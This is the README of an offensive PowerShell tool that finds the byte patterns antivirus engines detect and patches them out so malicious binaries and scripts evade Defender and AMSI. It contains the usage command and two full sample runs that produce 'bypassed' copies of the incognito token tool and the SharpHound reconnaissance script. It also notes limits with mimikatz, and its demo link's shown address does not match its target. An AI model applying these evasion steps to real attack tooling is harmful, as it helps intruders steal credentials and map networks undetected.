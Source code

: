 # Remove-Signature

Remove-Signature is a powershell-based tool designed to automate the process of generating a payload that can bypass anti-virus detection. 

https://www.blackhat.com/asia-23/arsenal/schedule/index.html#remove-signature-31139

## Usage

```
. '.\Remove-Signature.ps1' ; Remove-Signature -Path .\incognito.exe -AvProduct Amsi
```

* -Path: filepath
* -Force (optional) : remove signature even if it is at .text section or .idata(import name table) section
* -AvProduct (optional): av product to use for signature scanning, Defender (default) or Amsi, Kaspersky(Beta version)
  * recommended to choose Amsi since it's faster.

```
PS C:\> . '.\Remove-Signature.ps1' ; Remove-Signature -Path .\incognito.exe
[*] C:\incognito.exe has malicious signature. start removing all of them...
[*] scanning 102912 bytes
..............................................
[*] located a signature around 0001679a

0001671a 74 69 6e 67 20 74 6f 20 61 64 64 20 75 73 65 72 ting to add user
0001672a 20 25 73 20 74 6f 20 67 72 6f 75 70 20 25 73 20  %s to group %s
0001673a 6f 6e 20 64 6f 6d 61 69 6e 20 63 6f 6e 74 72 6f on domain contro
0001674a 6c 6c 65 72 20 25 73 0a 00 00 4e 54 20 41 55 54 ller %s   NT AUT
0001675a 48 4f 52 49 54 59 5c 41 4e 4f 4e 59 4d 4f 55 53 HORITY\ANONYMOUS
0001676a 20 4c 4f 47 4f 4e 00 00 00 00 5b 2b 5d 20 53 75  LOGON    [+] Su
0001677a 63 63 65 73 73 66 75 6c 6c 79 20 61 64 64 65 64 ccessfully added
0001678a 20 75 73 65 72 20 74 6f 20 67 72 6f 75 70 0a 00  user to group
0001679a 00 00 5b 2d 5d 20 43 6f 6d 70 75 74 65 72 20 6e   [-] Computer n
000167aa 61 6d 65 20 69 6e 76 61 6c 69 64 0a 00 00 5b 2d ame invalid   [-
000167ba 5d 20 4f 70 65 72 61 74 69 6f 6e 20 6f 6e 6c 79 ] Operation only
000167ca 20 61 6c 6c 6f 77 65 64 20 6f 6e 20 70 72 69 6d  allowed on prim
000167da 61 72 79 20 64 6f 6d 61 69 6e 20 63 6f 6e 74 72 ary domain contr
000167ea 6f 6c 6c 65 72 0a 00 00 00 00 5b 2d 5d 20 53 70 oller     [-] Sp
000167fa 65 63 69 61 6c 20 67 72 6f 75 70 0a 00 00 5b 2d ecial group   [-
0001680a 5d 20 55 73 65 72 20 6e 6f 74 20 66 6f 75 6e 64 ] User not found
[*] should be changed as follow to bypass the signature

0001671a 74 69 6e 67 20 74 6f 20 61 64 64 20 75 73 65 72 ting to add user
0001672a 20 25 73 20 74 6f 20 67 72 6f 75 70 20 25 73 20  %s to group %s
0001673a 6f 6e 20 64 6f 6d 61 69 6e 20 63 6f 6e 74 72 6f on domain contro
0001674a 6c 6c 65 72 20 25 73 0a 00 00 4e 54 20 41 55 54 ller %s   NT AUT
0001675a 48 4f 52 49 54 59 5c 41 4e 4f 4e 59 4d 4f 55 53 HORITY\ANONYMOUS
0001676a 20 4c 4f 47 4f 4e 00 00 00 00 5b 2b 5d 20 53 75  LOGON    [+] Su
0001677a 63 63 65 73 73 66 75 6c 6c 79 20 61 64 64 65 64 ccessfully added
0001678a 20 75 73 65 72 20 74 6f 20 67 72 6f 75 70 41 00  user to groupA
0001679a 00 00 5b 2d 5d 20 43 6f 6d 70 75 74 65 72 20 6e   [-] Computer n
000167aa 61 6d 65 20 69 6e 76 61 6c 69 64 0a 00 00 5b 2d ame invalid   [-
000167ba 5d 20 4f 70 65 72 61 74 69 6f 6e 20 6f 6e 6c 79 ] Operation only
000167ca 20 61 6c 6c 6f 77 65 64 20 6f 6e 20 70 72 69 6d  allowed on prim
000167da 61 72 79 20 64 6f 6d 61 69 6e 20 63 6f 6e 74 72 ary domain contr
000167ea 6f 6c 6c 65 72 0a 00 00 00 00 5b 2d 5d 20 53 70 oller     [-] Sp
000167fa 65 63 69 61 6c 20 67 72 6f 75 70 0a 00 00 5b 2d ecial group   [-
0001680a 5d 20 55 73 65 72 20 6e 6f 74 20 66 6f 75 6e 64 ] User not found
[+] removed all signatures. here is the output: C:\incognito.exe.bypassed
```

```
PS C:\Users\david\Desktop\tool> Remove-Signature -Path .\SharpHound.ps1 -AvProduct Amsi
[*] SharpHound.ps1 has malicious signature. start scanning 1318097 bytes...
......
[*] located a signature around 00141cba

00141c3a 4d 65 74 68 6f 64 28 22 41 74 74 61 63 68 22 2c Method("Attach",
00141c4a 20 24 42 69 6e 64 69 6e 67 46 6c 61 67 73 29 2e  $BindingFlags).
00141c5a 49 6e 76 6f 6b 65 28 24 4e 75 6c 6c 2c 20 40 28 Invoke($Null, @(
00141c6a 29 29 0a 09 24 41 73 73 65 6d 62 6c 79 2e 47 65 ))  $Assembly.Ge
00141c7a 74 54 79 70 65 28 22 53 68 61 72 70 68 6f 75 6e tType("Sharphoun
00141c8a 64 2e 50 72 6f 67 72 61 6d 22 29 2e 47 65 74 4d d.Program").GetM
00141c9a 65 74 68 6f 64 28 22 49 6e 76 6f 6b 65 53 68 61 ethod("InvokeSha
00141caa 72 70 48 6f 75 6e 64 22 29 2e 49 6e 76 6f 6b 65 rpHound").Invoke
00141cba 28 24 4e 75 6c 6c 2c 20 40 28 2c 24 70 61 73 73 ($Null, @(,$pass
00141cca 65 64 29 29 0a 7d 0a
[*] should be changed as follow to bypass the signature

00141c3a 4d 65 74 68 6f 64 28 22 41 74 74 61 63 68 22 2c Method("Attach",
00141c4a 20 24 42 69 6e 64 69 6e 67 46 6c 61 67 73 29 2e  $BindingFlags).
00141c5a 49 6e 76 6f 6b 65 28 24 4e 75 6c 6c 2c 20 40 28 Invoke($Null, @(
00141c6a 29 29 0a 09 24 41 73 73 65 6d 62 6c 79 2e 47 65 ))  $Assembly.Ge
00141c7a 74 54 79 70 65 28 22 53 68 61 72 70 68 6f 75 6e tType("Sharphoun
00141c8a 64 2e 50 72 6f 67 72 61 6d 22 29 2e 47 65 74 4d d.Program").GetM
00141c9a 65 74 68 6f 64 28 22 49 6e 76 6f 6b 65 53 68 61 ethod("InvokeSha
00141caa 72 70 48 6f 75 6e 64 22 29 2e 49 6e 76 6f 6b 41 rpHound").InvokA
00141cba 28 24 4e 75 6c 6c 2c 20 40 28 2c 24 70 61 73 73 ($Null, @(,$pass
00141cca 65 64 29 29 0a 7d 0a
[+] removed all signatures. here is the output: C:\Users\david\Desktop\tool\bypassed.SharpHound.ps1
```

## Demo

[https://www.youtube.com/watch?v=7jtHYQ8kGCw](https://www.youtube.com/watch?v=1pQVQR1jjE8)

## Known Issues

* cannot output bypassed version of mimikats
  * Defender has signatures in its import name table. If import table is modified to bypass the detection, mimikatz won't be launched properly.
* when Defender Cloud Protection is enabled, binaries with managed code tend to be detected. 
